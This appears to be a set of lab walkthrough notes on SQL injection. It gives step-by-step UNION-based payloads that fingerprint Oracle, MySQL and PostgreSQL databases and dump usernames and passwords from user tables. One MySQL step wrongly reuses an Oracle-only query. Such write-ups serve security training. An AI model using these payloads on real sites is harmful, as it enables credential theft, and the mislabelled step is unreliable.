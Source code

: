 # Examining the database in SQL injection attacks

Examining database
| Database type | Query |
| ------------- | ------| 
|Microsoft 		|	SELECT @@version |
|Oracle 		|	SELECT * FROM v$version |
|PostgreSQL 	| 	SELECT version() |
|MySQL 			|	SELECT @@version |

## Lab #1: SQL injection attack, querying the database type and version on Oracle

Steps: 

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 --
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' FROM DUAL --
```

3. Retrieve Oracle banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```
```
UNION SELECT * FROM v$version where banner LIKE 'oracle%'--

```

## SQL injection attack, querying the database type and version on MySQL and Microsoft


Steps

1. Determine the number of column
```
category=Pets' ORDER BY 1,2 #
```

2. Determine the columns data type
```
category=Pets' UNION SELECT 'a','b' #
```

3. Retrieve Oracle database banner
```
category=Pets' UNION SELECT banner, null FROM v$version --
```

`#` = %23

## Lab #2: SQL injection attack, listing the database contents on non-Oracle databases

Steps:

1. Determine the number of columns and column data type
```
category=Pets' order by 1, 2 --
category=Pets' union select 'a', 'a' --
```

2. Find all table name contains '%user%' | `%` = %25
```
category=Pets' union select table_name, 'a' from information_schema.tables where table_name like '%user%'--
```

3. List the table columns
```
category=Pets' union select table_name, column_name from information_schema.columns where table_name='pg_user' --
category=Pets' union select table_name, column_name from information_schema.columns where table_name='users_rfankd' -- 
```

4. Retrieve the table contents

```
category=Pets' union select username_grhpij, password_rhddiy from users_rfankd -- 

category=Pets' union select username_grhpij || ':' || password_rhddiy, null from users_rfankd -- 
```

## Lab #3: SQL injection attack, listing the database contents on Oracle

steps:
1. Determine the number of columns and columns data type
```
' ORDER BY 1,2 
' UNION SELECT 'a', 'a' FROM DUAL --
```

2. Examine the database type.
```
' UNION SELECT banner ,NULL FROM v$version --
```

3. Find all table contains 'U%' | `%` = %25
```
' UNION SELECT table_name,'a' FROM all_tables WHERE table_name like 'U%25' --
```

4. List the table columns
```
' UNION SELECT table_name, column_name FROM all_tab_columns WHERE table_name = 'USERS_WNFXKC'
``` 

5. Retrieve the table contents
```
' UNION SELECT USERNAME_ZATYRE, PASSWORD_FIACJD FROM USERS_WNFXKC --
```
